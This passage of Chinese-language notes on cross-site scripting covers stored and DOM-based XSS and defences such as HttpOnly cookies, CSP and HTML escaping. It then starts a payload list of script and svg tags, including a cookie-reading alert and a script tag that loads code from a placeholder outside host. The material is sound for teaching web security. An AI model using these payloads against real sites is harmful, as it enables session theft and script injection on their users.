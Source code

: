    ```php
   预防存储型XSS攻击也是从输入和输出两个方面来考虑。
   1.服务器接收到数据，在存储到数据库之前，进行转义和过滤危险字符;
   2.前端接收到服务器传递过来的数据，在展示到页面前，先进行转义/过滤;
   不论是反射型攻击还是存储型，攻击者总需要找到两个要点，即“输入点”与"输出点"，也只有这两者都满足，XSS攻击才会生效。“输入点”用于向 web页面注入所需的攻击代码，而“输出点”就是攻击代码被执行的地方。
   ```

### DOM型xss

1. 攻击方式

   ```php
   用户请求一个经过专门设计的URL，它由攻击者提供，而且其中包含XSS代码。服务器的响应不会以任何形式包含攻击者的脚本，当用户的浏览器处理这个响应时，DOM对象就会处理XSS代码，导致存在XSS漏洞。
   /*DOM(Document object model)，使用DOM能够使程序和脚本能够动态访问和更新文档的内容、结构和样式。DOM型XSS其实是一种特殊类型的反射型XSS，它是基于DOM文档对象的一种漏洞。DOM型XSS是基于js上的，不需要与服务器进行交互。*/
   ```

2. 攻击步骤

   ```php
   1.攻击者构造出特殊数据，其中包含恶意代码。
   2.用户浏览器执行了恶意代码
   3.恶意窃取用户数据并发送到攻击者的网站，或冒充用户行为，调用目标网站接口执行攻击者指定的操作.
   /*DOM型XSS攻击中，取出和执行恶意代码由浏览器端完成，属于前端javascript自身的安全漏洞.*/
   ```

### 其他防范策略

1. HTTP-only Cookie:禁止JavaScript读取某些敏感Cookie，攻击者完成XSS注入后也无法窃取此Cookie属性：防止脚本冒充用户提交危险操作
2. 在服务端使用HTTP的Content-Security-Policy头部来指定策略，或者在前端设置meta标答。例如只允许加载同域下的资源
3. 应对XSS攻击的主要手段还是编码与过滤两种，编码用于将特殊的符号 "<、>、&、'、""进行**html转义**，而过滤则是阻止特定的标记、属性、事件。

## 二、攻击荷载

### script标签


```html
<script> 标签用于定义客户端脚本
<script>alert("xss")</script>             
<script>alert(/xss/)</script>                             
<script>alert(document.cookie)</script>   
<script src=http://xxx.com/xss.js></script> 
```

### svg标签

```html
<svg> 标签用来在HTML页面中直接嵌入SVG 文件的代码。 // 等价于 >
<svg onload="alert("xss")">
<svg onload="alert("xss")"//
```
